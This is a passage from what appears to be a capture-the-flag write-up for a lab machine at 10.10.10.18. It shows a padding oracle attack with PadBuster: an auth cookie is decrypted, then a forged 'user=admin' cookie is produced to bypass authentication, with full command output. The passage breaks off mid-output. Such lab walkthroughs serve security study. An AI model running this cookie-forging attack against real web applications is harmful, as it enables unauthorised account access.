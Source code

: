 [+] Decrypted value (HEX): 757365723D696E617231060606060606

[+] Decrypted value (Base64): dXNlcj1pbmFyMQYGBgYGBg==

-------------------------------------------------------
{% endhighlight %}

So what we can assume is that if we forge the base64 encoded cookie with value "user=admin", we can bypass the authentication.
{% highlight shell %}
root@kali:~# padbuster http://10.10.10.18/index.php GVeL9h27Y+Jk5zAWW+iAHNproCe8AF5k 8 --cookies auth=GVeL9h27Y+Jk5zAWW+iAHNproCe8AF5k -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 15

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results: